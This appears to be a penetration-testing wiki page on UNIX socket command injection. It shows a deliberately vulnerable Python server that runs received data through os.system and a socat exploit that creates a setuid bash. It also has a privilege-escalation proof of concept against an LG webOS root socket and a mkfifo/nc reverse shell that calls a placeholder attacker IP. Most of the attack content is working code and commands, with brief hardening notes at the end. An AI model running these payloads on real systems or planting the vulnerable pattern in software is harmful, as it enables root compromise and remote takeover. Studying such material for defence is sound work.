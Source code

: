 # Socket Command Injection

## Socket binding example with Python

In the following example a **unix socket is created** (`/tmp/socket_test.s`) and everything **received** is going to be **executed** by `os.system`.I know that you aren't going to find this in the wild, but the goal of this example is to see how a code using unix sockets looks like, and how to manage the input in the worst case possible.

```python:s.py
import socket
import os, os.path
import time
from collections import deque

if os.path.exists("/tmp/socket_test.s"):
  os.remove("/tmp/socket_test.s")

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/socket_test.s")
os.system("chmod o+w /tmp/socket_test.s")
while True:
  server.listen(1)
  conn, addr = server.accept()
  datagram = conn.recv(1024)
  if datagram:
    print(datagram)
    os.system(datagram)
    conn.close()
```

**Execute** the code using python: `python s.py` and **check how the socket is listening**:

```python
netstat -a -p --unix | grep "socket_test"
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
unix  2      [ ACC ]     STREAM     LISTENING     901181   132748/python        /tmp/socket_test.s
```

**Exploit**

```python
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/socket_test.s
```

## Case study: Root-owned UNIX socket signal-triggered escalation (LG webOS)

Some privileged daemons expose a root-owned UNIX socket that accepts untrusted input and couples privileged actions to thread-IDs and signals. If the protocol lets an unprivileged client influence which native thread is targeted, you may be able to trigger a privileged code path and escalate.

Observed pattern:
- Connect to a root-owned socket (e.g., /tmp/remotelogger).
- Create a thread and obtain its native thread id (TID).
- Send the TID (packed) plus padding as a request; receive an acknowledgement.
- Deliver a specific signal to that TID to trigger the privileged behaviour.

Minimal PoC sketch:

```python
import socket, struct, os, threading, time
# Spawn a thread so we have a TID we can signal
th = threading.Thread(target=time.sleep, args=(600,)); th.start()
 tid = th.native_id  # Python >=3.8
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect("/tmp/remotelogger")
s.sendall(struct.pack('<L', tid) + b'A'*0x80)
s.recv(4)  # sync
os.kill(tid, 4)  # deliver SIGILL (example from the case)
```

To turn this into a root shell, a simple named-pipe + nc pattern can be used:

```bash
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER-IP> 23231 > /tmp/f
```

Notes:
- This class of bugs arises from trusting values derived from unprivileged client state (TIDs) and binding them to privileged signal handlers or logic.
- Harden by enforcing credentials on the socket, validating message formats, and decoupling privileged operations from externally supplied thread identifiers.

## References

- [LG WebOS TV Path Traversal, Authentication Bypass and Full Device Takeover (SSD Disclosure)](https://ssd-disclosure.com/lg-webos-tv-path-traversal-authentication-bypass-and-full-device-takeover/)

